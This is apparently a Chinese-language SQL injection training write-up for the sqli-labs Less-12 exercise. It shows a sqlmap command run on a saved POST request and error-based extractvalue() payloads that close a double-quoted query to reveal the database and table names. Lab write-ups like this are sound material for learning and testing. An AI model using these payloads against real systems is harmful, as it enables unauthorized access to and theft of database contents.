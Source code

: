 ![image-20201110171509978](https://raw.githubusercontent.com/heriachen/cloudimg/main/img/image-20201110171509978.png)





sqlmap

抓包保存到文件 sqlmap指定文件

![image-20201110171757747](https://raw.githubusercontent.com/heriachen/cloudimg/main/img/image-20201110171757747.png)

sqlmap.py -r "c:\Users\fendo\Desktop\post.txt"  --dbs

![image-20201110172450201](https://raw.githubusercontent.com/heriachen/cloudimg/main/img/image-20201110172450201.png)

后续相同

## 0X0CLess-12

**POST - Error Based - Double quotes- String-with twist (基于错误的双引号POST型字符型变形的注入)**

![img](https://raw.githubusercontent.com/heriachen/cloudimg/main/img/20180822112455820)

可以看到sql查询语句：

@$sql="SELECT username, password FROM users WHERE username=($uname) and password=($passwd) LIMIT 0,1";

构造一个能闭合语句而且会报错的payload：

admin" and extractvalue(1,concat(0x7e,(select database()))) and " 

最终admin = "admin" and extractvalue(1,concat(0x7e,(select database()))) and " "

传入后就变成了：

```
@$sql="SELECT username, password FROM users WHERE username="admin"  and extractvalue(1,concat(0x7e,(select database())))  and " " and password=($passwd) LIMIT 0,1";
```

![image-20201110173648940](https://raw.githubusercontent.com/heriachen/cloudimg/main/img/image-20201110173648940.png)

下来就再concat()中构造查询语句：

爆库payload

```
uname=admin" and extractvalue(1,concat(0x7e,(select database())))  and " &passwd=admin&submit=Submit
```

爆表payload

```
uname=admin"  and extractvalue(1,concat(0x7e,(select group_concat(table_name) from information_schema.tables where table_schema=database())))  and "  &passwd=admin&submit=Submit
```
